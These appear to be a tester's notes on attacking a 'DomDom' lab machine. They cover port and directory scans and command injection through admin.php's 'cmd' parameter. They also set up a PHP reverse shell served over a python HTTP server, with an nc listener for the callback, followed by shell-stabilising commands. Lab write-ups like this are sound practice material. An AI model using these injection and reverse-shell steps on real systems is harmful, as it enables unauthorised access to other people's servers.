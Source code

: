 

---

**S1REN's Template Reference**

\[OS]: Ubuntu
\[Web-Technology]:  http://192.168.100.7:80
\[Hostname]:  
\[IP]:  192.168.100.7
\[USERS]:   
\[CREDENTIALS]:  

---
\[To-Try LIST]:  

User form - inputs sanitised

Fuzzing


---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:8F:4A:D5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16


--- 

\[Web Services Enumeration]:   


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)

|     Path: http://192.168.100.7:80/
|     Form id: user_form
|_    Form action: index.php
| http-enum: 
|_  /admin.php: Possible admin folder

Nothing at 

Dirb:
/server-status
/admin.php


SQLi - no results
Fuzzing no results
Brute forcing?
Code Eval/Injection - ACE?

Burpsuite
![[Pasted image 20250829104104.png]]

forward admin.php -> command executed
![[Pasted image 20250829104511.png]]

try execute id `name=admin&username=admin&password=admin&access=access&cmd=id`
![[Pasted image 20250829104706.png]]


code was executed. Now run reverse shell (w/ machine IP) nc and host it on webserver


```
cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 9999
nc -nlvp 1234 
```

![[Pasted image 20250829105936.png]]
![[Pasted image 20250829110029.png]]
![[Pasted image 20250829110044.png]]



---


\[OTHER / PRIVILEGE-ESCALATION]:   
S1ren get that tty
www-data
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
export TERM=xterm-256color  
alias ll='ls -lsaht --color=auto'  
stty raw -echo ; fg ; reset  
stty columns 200 rows 20

cd home

# Saw domdom user here 
cd domdom

# but no perms for reading /Desktop/Readme

```


--- 
Take Away Concepts: 



HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
